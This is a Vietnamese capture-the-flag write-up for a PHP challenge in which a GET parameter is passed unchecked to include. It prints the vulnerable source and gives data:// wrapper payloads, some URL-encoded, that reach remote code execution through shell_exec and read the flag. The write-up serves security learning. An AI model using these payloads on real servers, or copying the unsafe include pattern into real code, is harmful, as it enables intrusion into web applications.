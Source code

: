 # WEB_1

## Description 

```
mấy đứa đừng hack máy anh nhé .-.
mai anh còn đi làm nên đừng fuzzing nữa nhé ;(((
nhắc lại thương anh còn đang tích tiền cười vợ =(((
đừng hack máy anh
```
## Solution 

Do server đã bị hack tuy nhiên mk đã nhanh trí chụp lại source để tự built trên local , viết cái writeup này ==))

> Source code 

```
<?php
	if (!isset($_GET['file'])){
	    show_source(__file__);
	    exit(1);
	}

	$content = $_GET["file"];


	$filter_1 = "/^data(:)*(\/)*text(\/)*plain(;)*base64/i";
	$filter_2 ="/^http./i";

	if(preg_match($filter_1,$content)){
	    exit("Hacking not allowed here");
	}
	if(preg_match($filter_2,$content)){
	    exit("It's covid time, Do not go outside");
	}


	include $content;

	echo "<hr>";
	echo 'Keep moving forward<br />_Walt Disney_<br>';
?>

//Made in  dungdm@

```

Từ source ta có thể thấy có params file được truyền vào bằng GET và giá trị của nó sẽ được gán cho $content , sau đó biến này sẽ được truyền vào *include* để import file vào .

Đến đây có hai khả năng mà mình nghĩ đến :
   + Directory Traversal , tuy nhiên sau khi thử một số payload để đọc các file đặc biệt thì dường như không có hiệu quả .
   + LFI , lỗi này thì quá rõ ràng với dấu hiệu *?file=* và *include* và đây cũng là vuln trong chall này .

File Inclusion cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web (source:https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3).

Sau khi lang thang trên payloadsallthethinks(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter) mk tìm được một số payloads khả thi .

  + Đầu tiên mk nghĩ tới việc dùng *php://filter/convert.base64-encode/resource=* để đọc source file nhưng do không scan được nên vấn đề là sẽ ko biết được có file nào ẩn không mà đọc có mỗi file index.php thì được cho rồi :)) 
  + Sau ý tưởng đầu thất bại mk có tìm thử 1 số file mặc định hay đặc trung thì tìm đc file robots.txt có dạng :
  ```
  User-agent: *
  Disallow: /flag123456789.php
  ```
  hớn hở mở file này nhưng đời ko như là mơ *NOT FLAG TRY HARDER*
  + Sau một quá trình đi lung tung thì nhìn lại source code , ko bt tác giả filter cái data:// làm gì và với việc LFI cũng có thể dùng data:// để RCE thì mk nghĩ ôi thôi chắc là hướng này rồi .

Một chút về data_URIs ```data:[<mediatype>][;base64],<data>``` , ta có thể thấy rõ cấu trúc của nó ở đây :

  + Đầu tiên là cái mime để xác định kiểu dữ liệu nếu bỏ qua sẽ mặc định là text/plain .
  + ;Base64 để encode những dữ liệu ở dạng nhị phân nếu dữ liệu của bạn ở dạng văn bản thì có thể bỏ qua .

Dựa vào các đặc trung trên ta có payloads sau :
> payloads : data://text/plain,<?php phpinfo();?>

Sau khi hiển thị được phpinfo() tưởng chừng giải quyết được vấn đề tuy nhiên sau khi tiến hành rce lại ko đc :

> payloads : data://text/plain,<?php echo shell_exec('ls');?>

Và mình mất khá nhiều thời gian cho lỗi này sau một hồi betak thì tác giả hint là cần encode url payloads vì một số kí tự đặc biệt sẽ khiến paylaods ko chạy đúng cách . Thế nhưng vẫn ko được lần này là do server chạy win mà mk dùng command linux mặc dù khi phpinfo mk có thấy rõ ràng server là win (gà vl).

Do không có nhiều kiến thức về command win nên phải nhờ hint tới tấp của tác giả cuối cùng cũng khai thác được :

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%2A%27%29%3B%3F%3E

![img](img/img1.png)

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%27%29%3B%3F%3E

![img](img/img2.png)

>?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27cd%20s3cr3t_m0Th3r_PhucDu%26type%20flag.txt%27%29%3B%3F%3E

![img](img/img3.png)

## Flag

KCSC{G00dJob_bae______G00000000000000000000000000000000DJ0000000b_GoodJ0b____Gudj0b}



